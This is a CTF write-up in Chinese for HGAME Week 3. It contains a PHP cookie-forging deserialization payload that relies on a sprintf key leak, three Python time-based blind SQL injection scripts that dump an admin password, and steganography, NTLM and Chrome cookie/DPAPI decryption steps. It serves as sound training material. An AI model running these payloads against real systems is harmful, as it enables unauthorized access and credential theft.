# HGAME Week3 WriteUp
## Web
### 序列之争 - Ordinal Scale
第一步才是最艰难的。。。  
源码里提示有个压缩包，一直都不知道这个压缩包在哪，原来直接可以从根目录下的吗。。。  
<s>（找这个压缩包找了快一个小时，我应该是没救了）</s>  
  
里面三个php文件。
第一个是主页登陆界面的，没什么用。
第二个是game界面,可以看到只要rank是1就可以得到flag。  
  
最后一个则是关键的文件，存储了游戏最基本的规则。
```php
<?php
error_reporting(0);
session_start();

class Game
{   
    private $encryptKey = 'SUPER_SECRET_KEY_YOU_WILL_NEVER_KNOW';
    public $welcomeMsg = '%s, Welcome to Ordinal Scale!';

    private $sign = '';
    public $rank;

    public function __construct($playerName){
        $_SESSION['player'] = $playerName;
        if(!isset($_SESSION['exp'])){
            $_SESSION['exp'] = 0;
        }
        $data = [$playerName, $this->encryptKey];
        $this->init($data);
        $this->monster = new Monster($this->sign);
        $this->rank = new Rank();
    }

    private function init($data){
        foreach($data as $key => $value){
            $this->welcomeMsg = sprintf($this->welcomeMsg, $value);
            $this->sign .= md5($this->sign . $value);
        }
    }
}

class Rank
{
    private $rank;
    private $serverKey;     // 服务器的 Key
    private $key = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx';

    public function __construct(){
        if(!isset($_SESSION['rank'])){
            $this->Set(rand(2, 1000));
            return;
        }

        $this->Set($_SESSION['rank']);
    }

    public function Set($no){
        $this->rank = $no;
    }

    public function Get(){
        return $this->rank;
    }

    public function Fight($monster){
        if($monster['no'] >= $this->rank){
            $this->rank -= rand(5, 15);
            if($this->rank <= 2){
                $this->rank = 2;
            }

            $_SESSION['exp'] += rand(20, 200);
            return array(
                'result' => true, 
                'msg' => '<span style="color:green;">Congratulations! You win! </span>'
            );
        }else{
            return array(
                'result' => false, 
                'msg' => '<span style="color:red;">You die!</span>'
            );
        }
    }

    public function __destruct(){
        // 确保程序是跑在服务器上的！
        $this->serverKey = $_SERVER['key'];
        if($this->key === $this->serverKey){
            $_SESSION['rank'] = $this->rank;
        }else{
            // 非正常访问
            session_start();
            session_destroy();
            setcookie('monster', '');
            header('Location: index.php');
            exit;
        }
    }
}

class Monster
{
    private $monsterData;
    private $encryptKey;

    public function __construct($key){
        $this->encryptKey = $key;
        if(!isset($_COOKIE['monster'])){
            $this->Set();
            return;
        }

        $monsterData = base64_decode($_COOKIE['monster']);
        if(strlen($monsterData) > 32){
            $sign = substr($monsterData, -32);
            $monsterData = substr($monsterData, 0, strlen($monsterData) - 32);
            if(md5($monsterData . $this->encryptKey) === $sign){
                $this->monsterData = unserialize($monsterData);
            }else{
                session_start();
                session_destroy();
                setcookie('monster', '');
                header('Location: index.php');
                exit;
            }
        }
        
        $this->Set();     
    }

    public function Set(){
        $monsterName = ['无名小怪', 'BOSS: The Kernal Cosmos', '小怪: Big Eggplant', 'BOSS: The Mole King', 'BOSS: Zero Zone Witch'];
        $this->monsterData = array(
            'name' => $monsterName[array_rand($monsterName, 1)],
            'no' => rand(1, 2000),
        );
        $this->Save();
    }

    public function Get(){
        return $this->monsterData;
    }

    private function Save(){
        $sign = md5(serialize($this->monsterData) . $this->encryptKey);
        setcookie('monster', base64_encode(serialize($this->monsterData) . $sign));
    }
}
```  
`if($this->rank <= 2){$this->rank = 2;}`怪不得我用连点器点了半天也没反应。。。  
所以要得到flag只能开挂，修改rank，根据终极hint，我们可以通过php反序列化来修改rank。
这里只有一个地方用到了`unserialize`，所以我们只能通过`monsterData`，而`monsterData`是从cookie里提取，所以我们需要构造一个cookie，
不过这里有个验证`md5($monsterData . $this->encryptKey) === $sign`，所以我们需要获得`encryptKey`  
```php
$monsterData = base64_decode($_COOKIE['monster']);
        if(strlen($monsterData) > 32){
            $sign = substr($monsterData, -32);
            $monsterData = substr($monsterData, 0, strlen($monsterData) - 32);
            if(md5($monsterData . $this->encryptKey) === $sign){
                $this->monsterData = unserialize($monsterData);
            }else{
                session_start();
                session_destroy();
                setcookie('monster', '');
                header('Location: index.php');
                exit;
            }
        }
```
参考终极hint我们可以发现这里的`sprintf`有个漏洞，因为它把`playerName`和`encryptKey`放在了一个数组里。而`welcomeMsg = '%s, Welcome to Ordinal Scale!'`所以我们的一开始输入的`playerName`如果等于`%s`，那么在第二遍循环的时候`welcomeMsg`依旧等于`'%s, Welcome to Ordinal Scale!'`就会把`encryptKey`一起输出。
```php
public function __construct($playerName){
        $_SESSION['player'] = $playerName;
        if(!isset($_SESSION['exp'])){
            $_SESSION['exp'] = 0;
        }
        $data = [$playerName, $this->encryptKey];
        $this->init($data);
        $this->monster = new Monster($this->sign);
        $this->rank = new Rank();
    }

    private function init($data){
        foreach($data as $key => $value){
            $this->welcomeMsg = sprintf($this->welcomeMsg, $value);
            $this->sign .= md5($this->sign . $value);
        }
    }
```
输入名字`%s`就得到了`encryptKey`
  
然后就可以构造cookie了，我们可以看到这里需要`monsterData`和`encryptKey`，而`monsterData`就是我们需要修改的地方。
```php
private function Save(){
        $sign = md5(serialize($this->monsterData) . $this->encryptKey);
        setcookie('monster', base64_encode(serialize($this->monsterData) . $sign));
    }
```
这里的`$this->encryptKey`是在创建这个`Monster`类的时候传递进来的，就是`Game`类中的`sign`，`sign`生成的代码就是之前`sprintf`漏洞的那个循环，通过`playerName`和`encryptKey`md5加密生成的。
```php
public function __construct($key){
        $this->encryptKey = $key;
        if(!isset($_COOKIE['monster'])){
            $this->Set();
            return;
        }
```
终于理清了变量之间的关系，那么就开始构造，下面是payload
```php
<?php
class Rank {
    private $rank=1;    //修改rank
}

$encryptKey = 'gkUFUa7GfPQui3DGUTHX6XIUS3ZAmClL';   //签cookie的密匙

$monsterData = array(
    'name' => new Rank(),       //触发反序列化，当调用name的时候，rank就会更新成1
    'no' => rand(1, 2000),
);

$sign='';
$playerName='123';              //随便设个名字，只要和POST上去的一样就行了
$data = [$playerName, $encryptKey];
foreach($data as $key => $value){
    $sign .= md5($sign . $value);
}
$encryptKey=$sign;
$sign = md5(serialize($monsterData) . $encryptKey);
$cookiedata=base64_encode(serialize($monsterData) . $sign);

echo($cookiedata);
?>
```
跑一下就生成我们需要的cookie
  
最后截包替换cookie即可

得到flag

<br></br><br></br><br></br><br></br><br></br>
### Cosmos的留言板-2
除了留言板，其他啥也不会了。。。  
刚打开是个登陆界面，这次的留言板需要登陆，用户名和密码只能是数字和字母，无法注入。登进去以后，很简单的界面，登出是退出登陆，没什么用，除此以外只有留言功能，留言没有过滤任何字符，但是<>之类的符号在html里被转化为了字符实体，那就没有什么办法进行XSS注入，那么想要获取管理员的账户就只能通过sql注入，从数据库中获得。  
  
上周的留言板是有个id可以注入，这周似乎没有什么能注入的地方。在留言那尝试了半天没啥进展，突然发现删除留言时，会在url里显示出删的留言的id。  
  
然后就尝试了一下注入，发现什么都没过滤，连'和#都不需要用（用了反而报错。。。），还是用上周的脚本改了一下<s>（上周我为什么要时间盲注。。。)</s>  
其他基本不变就是多加了个cookie。
```python
#爆库名
import requests
import time

flag = ''
maxlength = 50
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, 8):
    for x in range(32, 127):
        payload = " and (if(ascii(substring((database()),{0},1))={1},sleep(3),null))"
        url = (host + payload.format(i, x))
        print(url)
        start_time = time.time()
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 2:
            flag += chr(x)
            print(flag)
            break

```
这周的应该是时间盲注了吧，试了下union貌似不行。。。
```python
#爆表名
import requests
import time

flag = ''
maxlength = 10
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, maxlength):
    for x in range(32,127):
        payload = " and (if(ascii(substring((Select table_name from information_schema.tables where table_schema='babysql'limit 1,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break
```
爆列名也差不多，这就不放了，最后爆用户名和密码。
```python
#爆字段
import requests
import time

flag = ''
maxlength = 29
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, maxlength):
    for x in range(32,127):
        payload = " and (if(ascii(substr((Select password from user limit 0,1),{0},1)) ={1},sleep(5),null))"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break
```
得到用户名cosmos和密码
  
最后登陆Cosmos的账号获得flag

<br></br><br></br><br></br><br></br>
## Misc
### 三重隐写
打开压缩包，里面东西有点多，一个貌似是解密工具的安装包，先装了再说，另外还有三段音频，其中两个MP3，一个wav，最后还有个7z加密压缩包。  
  
先全都用binwalk分析了一下，然后在一个MP3中发现了一张条形码图片，直接手机扫，提示无商品信息。。。只能用在线工具扫了一下，得到了一个密码。
  
似乎是一个AES解密用的密匙，暂时用不到。  
~~那就先听听音乐放松一下~~  
全听了一遍没有异常之处，再用Audacity看了一下频谱之类的都没啥问题。  
剩下一个MP3多半是MP3Stego隐写的，但没有解密的密码，那么密码应该在wave文件里，这个文件名提示是LSB，本以为只有图片可以，没想到音频也可以LSB隐写，找了下资料，用SilentEye解密得到了MP3Stego的密码。
  
最后用MP3Stego提取，得到了压缩包的密码。  
  
解压以后就一个加密文件，可以用提供的那个解密工具打开，输入之前扫码得到的密码，得到flag<s>(为什么没法复制粘贴。。。)</s>  
  
<br></br><br></br><br></br>

### 日常
打开来两张一模一样的图片和一段音频,双图套路不多，再加上文件名提示Blind，应该是盲水印  
  
下了一个BlindWaterMark，然后两个小时以后还在折腾python。。。这东西要先装opencv，然后它是python2写的，python3没法运行，试了下自带的2to3工具，发现能运行，但提取出的水印不对。。。最后只能到虚拟机里跑了，刚好kali默认装的是python2.7,然后得到水印<s>（这上面字也太小了，放大了无数倍之后。。。）</s>  
  
这上面提到了一个软件VeraCrypt，查了下，是用来加密磁盘的，待会儿肯定要用到，先下一个。然后binwalk分析了一下音频，发现藏了个压缩包，提取出来解压，里面有个叫Container的未知文件，联想到前面那个加密磁盘的工具，这应该就是那个磁盘加密后的容器了，于是用VeraCrypt解密后挂载到电脑上，里面有三个文件，一个压缩包，一个叫Cookies的未知文件和一个txt，先把压缩包解开，发现文件夹里面的明明有文件，但居然是空的，点显示隐藏文件也没显示出来，不过可以从压缩文件里直接解压出来<s>（后来发现原来是系统文件，要设置过才能显示。。。）</s>txt文件里面是一个电脑的本地信息。
  
把NTLM解密，可以得到用户登陆密码。  
  
cookies文件用winhex查看了一下，里面有chrome.geogle.com之类的信息，应该是chrome的cookie文件，开头是SQLite format 3，尝试用SQLite Database Browser打开，发现了flag字段，但没有有用的信息。  
  
查了半天资料，了解到chrome的cookie文件是加密过的，解密需要原电脑的MasterKey，而那个一开始隐藏的系统文件就是解密cookie文件所需的那个guid的Master Key file。而Master Key file可以通过用户密码来解密，之前已经获得了，但怎么解密呢。。。  
一开始找到了一个方法，先用python从cookie里提取出DPAPI blob。  
```python
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect("..../Cookies") #路径
cursor = conn.cursor()
cursor.execute('SELECT name,value,encrypted_value FROM cookies')
for result in cursor.fetchall():
    print(binascii.b2a_hex(result[2]))
    f = open('test.txt','wb')
    f.write(result[2])
    f.close()
```
然后我们知道sid和用户密码，再加上master key file，用windows password recovery解密，但是不知道为什么只解出来半个。。。  
  
估计是没有提取完整，但始终找不到问题在哪。。。  
后来问了一下出题人，发现我又另辟蹊径了。。。<s>（咦，我为什么要说又）</s>  
找了半天，找到了一个软件DataProtectionDecryptor，不需要提取DPAPI blob，直接用cookie文件加上Master Key file和登陆密码就可以解密了，终于获得了flag。。。  
  

<br></br><br></br><br></br>
下周没有misc了，我就真的只能摸鱼了，web都做不出来了。。。